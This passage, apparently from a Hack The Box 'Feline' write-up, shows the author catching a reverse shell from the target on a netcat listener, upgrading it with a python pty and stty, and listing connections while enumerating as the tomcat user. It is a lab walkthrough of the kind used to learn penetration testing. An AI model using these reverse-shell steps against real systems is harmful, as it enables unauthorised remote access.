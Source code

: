 Got a connection to my http.server, sending my payload on its way

```text
┌──(zweilos㉿kali)-[~/htb/feline]
└─$ script
Script started, output log file is 'typescript'.

┌──(zweilos㉿kali)-[~/htb/feline]
└─$ bash                                                                                            1 ⨯
zweilos@kali:~/htb/feline$ nc -lvnp 8991
listening on [any] 8991 ...
connect to [10.10.15.98] from (UNKNOWN) [10.10.10.205] 43900
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@VirusBucket:/opt/tomcat$ ^Z
[1]+  Stopped                 nc -lvnp 8991
zweilos@kali:~/htb/feline$ stty raw -echo
nc -lvnp 8991aa:~/htb/feline$ 

tomcat@VirusBucket:/opt/tomcat$ export TERM=xterm-256color
```

I started logging output with the `script` command, started a bash shell \(since zsh seems to have problems with `stty raw -echo`\), then started my netcat listener. After running my `exploit.sh` I got a shell!

### Enumeration as `tomcat`

```text
Active Internet connections (servers and established)                                                   
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:46579         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:4505          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:4506          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      1 10.10.10.205:44894      1.1.1.1:53              SYN_SENT    -                   
tcp        0    511 10.10.10.205:43900      10.10.15.98:8991        ESTABLISHED 15461/bash          
tcp        0      0 10.10.10.205:34440      10.10.15.98:8990        CLOSE_WAIT  15048/bash          
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 127.0.0.1:8005          :::*                    LISTEN      968/java            
tcp6       0      0 :::8080                 :::*                    LISTEN      968/java            
udp        0      0 127.0.0.1:46744         127.0.0.53:53           ESTABLISHED -                   
udp        0      0 10.10.10.205:59415      1.0.0.1:53              ESTABLISHED -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*
```
